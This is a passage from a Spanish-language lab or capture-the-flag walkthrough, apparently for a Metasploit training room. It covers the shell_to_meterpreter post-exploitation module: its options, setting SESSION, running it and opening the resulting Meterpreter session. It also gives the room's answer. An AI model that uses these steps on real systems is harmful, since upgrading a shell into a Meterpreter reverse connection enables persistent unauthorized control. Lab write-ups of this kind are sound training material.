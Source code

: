 ```bash
use post/multi/manage/shell_to_meterpreter
```

3. Verifica la configuración con:

```bash
msf6 post(multi/manage/shell_to_meterpreter) > show options 

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.
```

4. **Respuesta:** la opción requerida a modificar es "SESSION"

#### 3. Set the required option, you may need to list all of the sessions to find your target here.

>**En español**
>Establezca la opción requerida, es posible que necesite enumerar todas las sesiones para encontrar su objetivo aquí.

1. Vuelve a verificar la sesión con:

```bash
sessions
```

2. Asigna el ID de la sesión obtenida con el exploit:

```bash
set SESSION <ID>
```

4. Ejecuta el módulo:
    
    ```bash
    run
    ```
    
5. Si es exitoso, verás una nueva sesión Meterpreter activa.

6. Una vez que ya verificaste la nueva sesión, selecciona esa sesión para su uso con:

```bash
sessions <número_de_sesión>
```

---
